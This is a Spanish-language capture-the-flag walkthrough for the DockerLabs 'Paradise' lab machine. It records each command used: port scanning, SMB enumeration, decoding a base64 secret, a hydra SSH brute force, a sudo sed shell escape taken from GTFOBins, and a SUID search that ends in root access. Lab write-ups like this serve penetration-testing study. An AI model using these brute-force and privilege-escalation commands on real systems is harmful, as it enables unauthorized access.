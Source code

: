 nmap: 445,80,22,139

![image](https://github.com/user-attachments/assets/3bb1be68-7619-4523-bc23-f1de1268799c)

---
hacemos un: enum4linux -a 172.17.0.2

![image](https://github.com/user-attachments/assets/b905716e-26f1-4f9f-bed5-cdb04ce17655)

Nos da dos nombres: andy y lucas

en el código fuente de la pagina de "Andy's house" hay una contraseña en base64: 

![image](https://github.com/user-attachments/assets/3c9ed1dd-f426-494a-acb2-052b168ccc2b)

> ZXN0b2VzdW5zZWNyZXRvCg==

Usamos: https://www.base64decode.org/es/

    nos da: estoesunsecreto

es un parámetro, así que dejamos la URL de la siguiente forma.

> http://172.17.0.2/estoesunsecreto/mensaje_para_lucas.txt

![image](https://github.com/user-attachments/assets/83682ff4-5a74-4c3f-8049-90d8167b687b)

Lanzamos un ataque de fuerza bruta ya que nos indican que la contraseña es débil:

> hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2

![[dockerlabs/facil/paradise/test5.png]]

nos da la contraseña de lucas: chocolate

entramos en el ssh con el usuario y contraseña encontrado

![[dockerlabs/facil/paradise/test6.png]]

utilizamos sudo -l

se escala con sed y lo buscamos en: https://gtfobins.github.io/gtfobins/sed/

colocamos el comando que nos dio y lo modificamos al principio: 

>sudo - u andy sed -n '1e exec sh 1>&0' /etc/hosts

![[dockerlabs/facil/paradise/test7.png]]


ahora buscamos como escalar, y buscando entre carpetas con el comando: 
> find / -perm -4000 -ls 2> /dev/null

Nos da dos ejecutables en " /usr/local/bin ", así que vamos a la ruta que nos muestra.

hay un "privileged_exec"
lo ejecutamos ya que tiene permisos de ejecución con Andy

> ./privileged_exec

![[dockerlabs/facil/paradise/test8.png]]
y somos root!
